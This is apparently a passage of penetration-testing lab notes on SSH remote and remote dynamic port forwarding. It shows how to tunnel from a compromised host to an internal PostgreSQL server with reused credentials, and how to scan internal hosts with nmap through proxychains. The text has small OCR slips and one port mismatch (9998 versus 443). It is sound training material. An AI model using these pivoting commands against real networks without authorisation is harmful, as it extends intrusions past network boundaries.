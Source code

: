 In this case, we want to listen on port **2345** on our Kali machine (**127.0.0.1:2345**), and forward all traffic to the PostgreSQL port on PGDATABASE01 (**10.4.50.215:5432**).

```shell
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

We can now start probing port 2345 on the loopback interface of our Kali machine, as though we're probing the PostgreSQL database port on PGDATABASE01 directly. On our Kali machine, we will use **psql**, passing **127.0.0.1** as the host (**-h**), **2345** as the port (**-p**), and using the database credentials of the **postgres** user (**-U**) we found earlier on CONFLUENCE01.

```shell
kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres
```

### Remote Dynamic Port Forwarding

The remote dynamic port forwarding command is relatively simple, although (slightly confusingly) it uses the same **-R** option as classic remote port forwarding. The difference is that when we want to create a remote dynamic port forward, we pass only one socket: the socket we want to listen on the SSH server. We don't even need to specify an IP address; if we just pass a port, it will be bound to the loopback interface of the SSH server by default.

To bind the SOCKS proxy to port 9998 on the loopback interface of our Kali machine, we simply specify **-R 443** to the SSH command we run on CONFLUENCE01. We'll also pass the **-N** flag to prevent a shell from being opened.

```shell
ssh -N -R 443 kali@192.168.45.193
```

ust as we did in the classic dynamic port forwarding example, we can use Proxychains to tunnel traffic over this SOCKS proxy port. We'll edit our Proxychains configuration file at **/etc/proxychains4.conf** on our Kali machine to reflect our new local SOCKS proxy port.

```shell
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 443
```

We can then run **nmap** with **proxychains** as we did before, this time against MULTISERVER03.

```shell
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```

###  SSH on Windows

SSH comes with Windows 10 by default since 1803 (and optionally since 1709). It's found in the `%systemdrive%\Windows\System32\OpenSSH` folder. Use `ssh.exe` just like `ssh` on Linux.
